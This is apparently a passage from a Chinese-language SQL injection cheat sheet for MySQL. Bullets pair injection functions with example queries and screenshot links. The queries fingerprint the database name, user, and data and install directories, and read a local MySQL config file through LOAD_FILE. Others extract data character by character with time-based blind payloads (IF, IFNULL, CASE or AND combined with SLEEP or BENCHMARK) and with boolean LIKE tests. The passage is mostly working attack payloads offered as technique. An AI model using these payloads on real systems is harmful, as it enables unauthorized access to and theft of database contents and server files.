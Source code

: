 - 截取倒数第3字符：SELECT REVERSE(SUBSTRING(REVERSE(database()) FROM 3 FOR 1));  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjlbQWuyPpGJT1LpLviatO30uAZvxqV7SuJqrw6ONp80JbvXp6xMQia8jw/640?wx_fmt=png&from=appmsg "")  
- @@user、 user()、current_user()  
- @@user：select @@user  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjwybT1WBrT0quTriadoiaicaqEbDEUFZ2oAAj3UBDp6Kl2NVvy78DRb4ZQ/640?wx_fmt=png&from=appmsg "")  
- user()：select user()  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjh2ZPCjicuszvjmoiaY81huWEIibLuH4mDPgTTQ3cVwpSPLNvIGXJMicTiaQ/640?wx_fmt=png&from=appmsg "")  
- SELECT current_user()  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjSbvibusu6YaCvUoRf1IPCQV7Z6KKDkdoRfH7aDS8Hsia1b7icwYXwDYEA/640?wx_fmt=png&from=appmsg "")  
- @@datadir、datadir()、系统变量查询、读取配置文件、@@basedir  
- @@datadir：select @@datadir  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjhQFuatcXYLhokPRYNYp5kBnVtl5K1Yzf7UhowCK1g9xCT75bCYaucQ/640?wx_fmt=png&from=appmsg "")  
- datadir()：select datadir()  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjrk0PXSgkTZqmrCaopETrs0PCib9UHdec0bK6VibckgR6kW5fH3LMg44w/640?wx_fmt=png&from=appmsg "")  
- 系统变量查询：SHOW VARIABLES LIKE 'datadir'  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjjf1VeXBtI3KmGiarAw0YEuTtCV63xuWMfnT9NI1lcrbnhxWkdpmQicdA/640?wx_fmt=png&from=appmsg "")  
- 读取配置文件：SELECT LOAD_FILE('C:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\my.ini')  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjEgaaANv6Y4mN7G7MINJYxZyndIKxL1cv5PkfUNSxXIgbO0rWgL7mSw/640?wx_fmt=png&from=appmsg "")  
- @@basedir：SELECT @@basedir  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjOodvg4932UdicbticyoQuuuyB1ibLPicmFRWQOQQic9ial4Hibia6CLIh49TOg/640?wx_fmt=png&from=appmsg "")  
- if、IFNULL、case when then、逻辑运算符组合、SIGN()+ 数学运算、字符串匹配函数  
- if函数的判断语句：select if(substr(database(),1,1)='t',sleep(10),0);  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjUOQFVA3FToILyM2biaRv4IMnpHvBIYqbhUcUL4C9DwIVneiahMdt4A7w/640?wx_fmt=png&from=appmsg "")  
- IFNULL函数：SELECT IFNULL(NULLIF(ASCII(SUBSTRING(DATABASE(),1,1)),116), SLEEP(5))  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGj4dS4CdmxYYibYc44B0A0BmXyD8vPsQcuZyVuEm5JSW51XiaOViajQzibLg/640?wx_fmt=png&from=appmsg "")  
- case when then函数：SELECT CASE WHEN (ASCII(SUBSTRING(DATABASE(),1,1))=116) THEN SLEEP(5) ELSE 0 END  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjUIhxswPm90p0ibnGChoTIpMMiaVuu9Z87dGVprqa4r0O28Oo6Buwa7Ow/640?wx_fmt=png&from=appmsg "")  
- 逻辑运算符组合：  
- SELECT (ASCII(SUBSTRING(DATABASE(),1,1))=116) AND SLEEP(5)  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjzKBXHkSM2DgZb8OX7HLPZPUaLDYOGJMZw7q0ic17MrgyhOVT4uDCu5g/640?wx_fmt=png&from=appmsg "")  
- SELECT (SELECT BENCHMARK(10000000,MD5('t')) WHERE ASCII(SUBSTRING(DATABASE(),1,1))=116)  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjgMLSR7uxIST0qjLrSlYTzL7tInjnSsIkZdkhykWqgxC8OqKDPwQ9rQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjRO7t5YSjicjRnj0gWt5RTBoZUYkL08Dibgq9iceibn8miayBL0IHyPjiaGFg/640?wx_fmt=png&from=appmsg "")  
- SIGN()+ 数学运算：SELECT SIGN(ASCII(SUBSTRING(DATABASE(),sleep(5),1))-116)=0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjRkBTxeHqCbt8fpsDxiccp4p729Z4E7SXuDlQm7nTOs2m1NLZT5cEWibQ/640?wx_fmt=png&from=appmsg "")  
- 字符串匹配函数：（仅适合布尔盲注，根据页面状态去判断）  
  
- like：SELECT  (SELECT DATABASE()) LIKE 't%'  
  